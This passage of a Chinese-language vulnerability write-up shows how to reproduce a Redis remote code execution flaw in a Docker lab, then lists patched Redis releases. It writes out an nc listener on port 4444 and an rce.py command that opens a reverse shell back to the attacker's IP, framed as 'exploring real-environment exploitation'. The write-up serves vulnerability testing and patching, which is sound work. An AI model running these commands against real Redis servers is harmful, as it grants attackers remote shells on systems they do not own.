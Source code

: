 redis-cli -h localhost -p 6379 ping  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icCXA7Jkf1VEUZMagQ27ZYWSb5UtT6SmWzrxcSBiacnc4DhefpRoT7lQPxwbWkWAoOOuOIuhI1w5rUqyicRJwguhQ/640?wx_fmt=png&from=appmsg "")  
### 1.2.2测试是否存在漏洞  
  
代码中的poc.py文件为测试是否存在漏洞，python3 poc.py 执行成功后，docker会直接崩溃，表明存在漏洞。**直接测试是需要谨慎！！！**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icCXA7Jkf1VEUZMagQ27ZYWSb5UtT6SmWVXI7bKq8cnIcXYojVyyOJrNa5jQXZJs8jciakP6OSwVcNAau0lEnkcA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icCXA7Jkf1VEUZMagQ27ZYWSb5UtT6SmWZwRYKfxkB6erdrO5dDeicibNn4jnhYYTW7qhteXsgdKlKiaFib3FOI6zmA/640?wx_fmt=png&from=appmsg "")  
### 1.2.3rce漏洞测试  
  
1.获取 Redis 容器的 ID  
  
本例中为cc7079ae54fc，然后，从容器中复制 redis-server 到当前目录  
  
docker cp cc7079ae54fc:/usr/local/bin/redis-server .  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icCXA7Jkf1VEUZMagQ27ZYWSb5UtT6SmWmc4XPHFYtVjWgQ0Inn9RjoAvcg8TB96NEicNCArXtnPDxdW4papa3jQ/640?wx_fmt=png&from=appmsg "")  
  
2.执行rce利用代码  
  
python3 solver-f0b22e429fa6c984f39a409744ff954d3a45d843edd29428ef3a68085d696a7d.py  
  
即可获取redis本地的shell  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icCXA7Jkf1VEUZMagQ27ZYWSb5UtT6SmWR1cf4b7xBOU2L4bcGFAZ2hZ73RYXiaXDpfz4a9zIJVjib8B51eiaYPsMA/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icCXA7Jkf1VEUZMagQ27ZYWSb5UtT6SmWLJVd3QJ5G09PGOqpyTc6F1Nh0mQGmPp933Qmox1AX4icTfdicuU7iaHXw/640?wx_fmt=png&from=appmsg "")  
  
3.探索真实环境的利用  
  
（1）在本地启动监听  
  
 nc -lvp 4444   
  
（2）执行脚本触发反向 shell   
  
python3 rce.py 172.17.0.2 -p 6379 --reverse-shell --local-ip 192.168.199.136 --local-port 4444  
  
通过测试代码可以进行漏洞检测和本地shell，但无法直接在公网进行实际测试。  
## 1.3修复建议  
### 1.3.1升级修复  
  
1.官方补丁  
  
Redis 8.0.3 及以上版本：  
https://github.com/redis/redis/releases/tag/8.0.3  
  
Redis 7.2.10 及以上版本：  
https://github.com/redis/redis/releases/tag/7.2.10  
  
Redis 7.4.5 及以上版本：  
https://github.com/redis/redis/releases/tag/7.4.5  
  